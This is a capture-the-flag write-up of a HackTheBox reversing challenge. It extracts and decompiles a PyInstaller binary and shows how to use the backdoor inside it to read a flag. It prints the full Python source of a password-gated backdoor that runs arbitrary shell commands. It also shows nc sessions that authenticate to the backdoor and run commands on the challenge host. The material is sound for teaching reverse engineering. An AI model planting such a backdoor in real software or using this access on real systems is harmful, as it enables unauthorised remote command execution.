


# CTF HackTheBox 2021 Cyber Apocalypse 2021 - Backdoor

Category: Reversing, Points: 325



Attached file: [bd](bd)

# Backdoor Solution

Let's run the attached binary:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $ ./bd 

```

Nothing intersting.

By looking on code using Ghidra we can see the binary running python ```pyc``` file.

Let's extract the ```.pyc``` file using ```objcopy```:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $ objcopy --dump-section pydata=pydata.dump bd 
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $ls
bd  pydata.dump
```

That will create for us dump file with extracted pydata, Let's extract this file using [https://github.com/extremecoders-re/pyinstxtractor.git](https://github.com/extremecoders-re/pyinstxtractor.git):
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $ git clone https://github.com/extremecoders-re/pyinstxtractor.git
Cloning into 'pyinstxtractor'...
remote: Enumerating objects: 60, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 60 (delta 0), reused 2 (delta 0), pack-reused 56
Unpacking objects: 100% (60/60), 30.01 KiB | 301.00 KiB/s, done.
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $python3 pyinstxtractor/pyinstxtractor.py pydata.dump
[+] Processing pydata.dump
[+] Pyinstaller version: 2.1+
[+] Python version: 38
[+] Length of package: 6994886 bytes
[+] Found 45 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: bd.pyc
[+] Found 223 files in PYZ archive
[+] Successfully extracted pyinstaller archive: pydata.dump

You can now use a python decompiler on the pyc files within the extracted directory
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $ls
bd  pydata.dump  pydata.dump_extracted  pyinstxtractor

```

Now inside ```pydata.dump_extracted``` directory we can see the following files:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $ls
_asyncio.cpython-38-x86_64-linux-gnu.so         _decimal.cpython-38-x86_64-linux-gnu.so  libssl.so.1.1                                    pyimod03_importers.pyc
base_library.zip                                _hashlib.cpython-38-x86_64-linux-gnu.so  libtinfo.so.5                                    pyi_rth_multiprocessing.pyc
bd.pyc                                          include                                  libz.so.1                                        PYZ-00.pyz
_bz2.cpython-38-x86_64-linux-gnu.so             lib                                      _lzma.cpython-38-x86_64-linux-gnu.so             PYZ-00.pyz_extracted
_codecs_cn.cpython-38-x86_64-linux-gnu.so       libbz2.so.1.0                            mmap.cpython-38-x86_64-linux-gnu.so              _queue.cpython-38-x86_64-linux-gnu.so
_codecs_hk.cpython-38-x86_64-linux-gnu.so       libcrypto.so.1.1                         _multibytecodec.cpython-38-x86_64-linux-gnu.so   readline.cpython-38-x86_64-linux-gnu.so
_codecs_iso2022.cpython-38-x86_64-linux-gnu.so  libexpat.so.1                            _multiprocessing.cpython-38-x86_64-linux-gnu.so  resource.cpython-38-x86_64-linux-gnu.so
_codecs_jp.cpython-38-x86_64-linux-gnu.so       libffi.so.6                              _opcode.cpython-38-x86_64-linux-gnu.so           _ssl.cpython-38-x86_64-linux-gnu.so
_codecs_kr.cpython-38-x86_64-linux-gnu.so       liblzma.so.5                             _posixshmem.cpython-38-x86_64-linux-gnu.so       struct.pyc
_codecs_tw.cpython-38-x86_64-linux-gnu.so       libmpdec.so.2                            pyiboot01_bootstrap.pyc                          termios.cpython-38-x86_64-linux-gnu.so
_contextvars.cpython-38-x86_64-linux-gnu.so     libpython3.8.so.1.0                      pyimod01_os_path.pyc

```

The intresting file is ```bd.pyc```, We can decompile it using [https://github.com/rocky/python-decompile3](https://github.com/rocky/python-decompile3) (Install it using README):

```python
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $decompyle3 bd.pyc 
# decompyle3 version 3.3.2
# Python bytecode 3.8 (3413)
# Decompiled from: Python 3.8.5 (default, Aug  2 2020, 15:09:07) 
# [GCC 10.2.0]
# Embedded file name: bd.py
import socket
from hashlib import md5
from subprocess import check_output
sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4433))
sock.listen(5)
while True:
    while True:
        client, addr = sock.accept()
        data = client.recv(32)
        if len(data) != 32:
            client.close()

		if data.decode() != md5(b's4v3_th3_w0rld').hexdigest():
			client.send(b'Invalid')
			client.close()
		else:
			size = client.recv(1)
			command = client.recv(int.from_bytes(size, 'little'))
			if not command.startswith(b'command:'):
				client.close()
			else:
				command = command.replace(b'command:', b'')
				output = check_output(command, shell=True)
				client.send(output)
				client.close()
# okay decompiling bd.pyc
```

And finally we have the source code [bd.py](bd.py).

So it's open socket using port 4433, Next we can see if we insert text != from ```md5(b's4v3_th3_w0rld')``` we get Invalid, else, we can run shell commands!

Let's try it.

So first, Let's get the md5 of s4v3_th3_w0rld:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $ echo -n s4v3_th3_w0rld | md5sum
e2162a8692df4e158e6fd33d1467dfe0  -
```

Next, We can just enter commands with prefix: ```command:```, Example: ```command:ls```, Let's try it:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $nc -vvv 127.0.0.1 4433 
localhost [127.0.0.1] 4433 (?) open
e2162a8692df4e158e6fd33d1467dfe0
command:ls
bd
pydata.dump
pydata.dump_extracted
pyinstxtractor
 sent 44, rcvd 52

```

So we can run command, Let's try in with CTF Docker, "Turn On" the docker from CTF website:



```console
165.227.226.11: inverse host lookup failed: Unknown host
(UNKNOWN) [165.227.226.11] 31486 (?) open
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $nc -vvv 165.227.226.11 31486
165.227.226.11: inverse host lookup failed: Unknown host
(UNKNOWN) [165.227.226.11] 31486 (?) open
e2162a8692df4e158e6fd33d1467dfe0

command:ls
bd.py
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
 sent 44, rcvd 89

```

Now, when we try to run command that isn't ```ls``` we failed:

```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $nc -vvv 165.227.226.11 31486
165.227.226.11: inverse host lookup failed: Unknown host
(UNKNOWN) [165.227.226.11] 31208 (?) open
e2162a8692df4e158e6fd33d1467dfe0
command:cat flag.txt
 sent 54, rcvd 0

```

Let's observe again the code:
```python
...
while True:
    while True:
        client, addr = sock.accept()
        data = client.recv(32)
        if len(data) != 32:
            client.close()

		if data.decode() != md5(b's4v3_th3_w0rld').hexdigest():
			client.send(b'Invalid')
			client.close()
		else:
			size = client.recv(1)
			command = client.recv(int.from_bytes(size, 'little'))
			if not command.startswith(b'command:'):
				client.close()
			else:
				command = command.replace(b'command:', b'')
				output = check_output(command, shell=True)
				client.send(output)
				client.close()
...
```

We can see first the code recv 32 byes,then one byte of size and then the full command.

So if our input is:
```
e2162a8692df4e158e6fd33d1467dfe0
command:cat flag.txt
```

It's mean the code get 32 bytes of md5 then /n which it will be the size and then the full command.

So we need to send the command at one line as follow:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $nc -vvv 165.227.226.11 31486
165.227.226.11: inverse host lookup failed: Unknown host
(UNKNOWN) [165.227.226.11] 31486 (?) open
e2162a8692df4e158e6fd33d1467dfe09command:cat flag.txt
CHTB{b4ckd00r5_4r3_d4nG3r0u5}
 sent 54, rcvd 30
```

We send the 32 bytes of md5, then we send 9 (size) and then the command we want to run.

And we get the flag ```CHTB{b4ckd00r5_4r3_d4nG3r0u5}```.